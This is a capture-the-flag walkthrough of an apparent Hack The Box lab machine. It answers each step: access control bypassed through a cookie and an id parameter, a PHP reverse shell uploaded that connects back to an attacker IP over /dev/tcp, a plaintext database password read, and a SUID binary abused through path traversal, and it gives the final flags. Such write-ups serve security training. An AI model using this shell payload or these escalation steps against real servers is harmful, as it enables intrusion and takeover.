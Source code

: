 * With what kind of tool can intercept web traffic? proxy.

* What is the path to the directory on the webserver that returns a login page? `/cdn-cgi/login`.

* What can be modified in Firefox to get access to the upload page? cookie.

* What is the access ID of the admin user? 34322. The `id` URL parameter was `2`. Change it to `id=1`:
```bash
http://10.129.210.215/cdn-cgi/login/admin.php?content=accounts&id=1
```

Upload a `shell.php` to the webserver:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.63/4242 0>&1'");?>
```

* On uploading a file, what directory does that file appear in on the server? `/uploads`.

* What is the file that contains the password that is shared with the robert user? `db.php`.
```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

The string `M3g4C0rpUs3r!` is the password for the `robert` user on the server.

* What executable is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? `find / -group bugtracker 2>/dev/null`.

* Regardless of which user starts running the bugtracker executable, what's user privileges will use to run? `root`.

* What SUID stands for? `set owner user id`.

Execute `ltrace ./bugtracker` to see what it does.

* What is the name of the executable being called in an insecure manner? `cat`.

Provide `../root.txt` as the Bug ID and we obtain the flag.

* Submit user flag: `f2c74ee8db7983851ab2a96a44eb7981`.

* Submit root flag: `af13b0bee69f8a877c3faf667f7beacf`.
